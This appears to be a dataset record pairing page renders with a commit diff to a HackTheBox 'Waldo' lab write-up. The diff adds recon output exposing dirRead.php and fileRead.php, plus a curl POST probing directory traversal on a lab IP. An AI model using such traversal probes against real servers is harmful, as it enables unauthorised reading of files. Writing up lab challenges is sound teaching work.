

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-02-19-Hackthebox-Waldo-Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 2306 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add some modification in 2019-02-19

```diff
--- a/_posts/2019-02-19-Hackthebox-Waldo-Writeup.md
+++ b/_posts/2019-02-19-Hackthebox-Waldo-Writeup.md
@@ -66,8 +66,51 @@ By inspecting with chrome development tool, we can find that it is html web page
 
 In that file, there are some interesting php path in some functions.
 
-For instance, dirRead.php has Directory Traversal.<br>
-Which means we can see any directory on Waldo.
+{% highlight shell %}
+root@kali:/home/sabonawa# curl -i http://10.10.10.87/list.js
+HTTP/1.1 200 OK
+Server: nginx/1.12.2
+Date: Tue, 18 Sep 2018 21:34:34 GMT
+Content-Type: application/javascript
+Content-Length: 6245
+Last-Modified: Thu, 03 May 2018 20:48:36 GMT
+Connection: keep-alive
+ETag: "5aeb75a4-1865"
+Expires: Sun, 23 Sep 2018 21:34:34 GMT
+Cache-Control: max-age=432000
+Accept-Ranges: bytes
+
+~~~
+
+function readDir(path){
+	var xhttp = new XMLHttpRequest();
+	xhttp.open("POST","dirRead.php",false);
+	xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
+	xhttp.send('path=' + path);
+	if (xhttp.readyState === 4 && xhttp.status === 200) {
+		return xhttp.responseText;
+	}else{
+	}
+}
+
+
+function readFile(file){
+	var xhttp = new XMLHttpRequest();
+	xhttp.open("POST","fileRead.php",false);
+	xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
+	xhttp.send('file=' + file);
+	if (xhttp.readyState === 4 && xhttp.status === 200) {
+		return xhttp.responseText;
+	}else{
+	}
+}
+
+~~~
+
+{% endhighlight %}
+
+For instance, dirRead.php has Directory Traversal(?).<br>
+Which means we can see any directory on Waldo if we have a permission.
 {% highlight shell %}
 root@kali:~# curl -i -X POST http://10.10.10.87/dirRead.p "Content-Type: application/x-www-form-urlencoded" -d "path=./"
 HTTP/1.1 200 OK
```
Also changed, not shown: other parts of _posts/2019-02-19-Hackthebox-Waldo-Writeup.md (+2 -1 lines).
